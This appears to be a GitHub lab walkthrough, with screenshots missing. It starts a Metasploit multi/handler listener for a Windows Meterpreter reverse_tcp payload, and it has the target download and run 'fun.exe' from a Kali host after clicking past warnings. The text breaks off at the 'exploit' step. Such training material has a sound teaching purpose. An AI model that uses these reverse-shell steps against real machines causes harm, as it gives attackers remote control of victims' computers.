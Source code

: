 <img width="278" height="35" alt="image" src="https://github.com/user-attachments/assets/091628bd-99ed-489d-bd9f-be1e266fb52e" />

Check the status of apache2
## OUTPUT:


<img width="919" height="389" alt="image" src="https://github.com/user-attachments/assets/2c5565a4-7462-45b2-a9ca-909ea39730bc" />

Invoke msfconsole:
## OUTPUT:
<img width="688" height="518" alt="image" src="https://github.com/user-attachments/assets/13d862cf-1327-43a3-8d0c-5749f3fbffe0" />




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:


<img width="914" height="851" alt="image" src="https://github.com/user-attachments/assets/c8ff41ea-c596-4f90-b062-2b47adebc4ab" />

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0

## OUTPUT:
<img width="603" height="131" alt="image" src="https://github.com/user-attachments/assets/b6eb1383-d36f-4f7b-8f40-9d1d77f31369" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe  ( Replace IP address appropriately)
The file "fun.exe" downloads. 
## OUTPUT:


<img width="1035" height="336" alt="image" src="https://github.com/user-attachments/assets/d24c5f60-80fc-486d-a59a-21132dd4dc6a" />

Bypass any warning boxes, double-click the file, and allow it to run.
## OUTPUT:

<img width="1033" height="178" alt="image" src="https://github.com/user-attachments/assets/56ac4eee-f740-4b2b-a2e1-c61d1c5dcc40" />


On kali/parrot give the command exploit
## OUTPUT:
